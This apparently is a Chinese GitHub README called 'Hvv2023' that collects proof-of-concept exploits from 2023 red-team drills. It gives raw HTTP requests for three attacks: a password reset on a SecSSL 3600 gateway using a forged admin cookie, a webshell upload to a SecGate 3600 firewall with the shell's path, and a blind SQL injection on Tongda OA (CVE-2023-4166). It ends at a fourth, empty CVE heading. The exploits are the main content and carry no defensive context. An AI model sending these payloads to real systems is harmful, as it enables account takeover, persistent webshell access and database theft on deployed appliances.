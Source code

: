 # Hvv2023

### 1、某神 SecSSL 3600安全接入网关系统 任意密码修改漏洞
POC
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}
old_pass=&password=Test123!@&repassword=Test123!@

### 2、某神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞
POST /?g=obj_app_upfile HTTP/1.1
Host: x.x.x.x
Accept: /
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php php马?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--

马儿路径：attachements/xxx.php

### 3、某达OA sql注入漏洞 CVE-2023-4166
```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
### 4、某达OA sql注入漏洞 CVE-2023-4165  POC
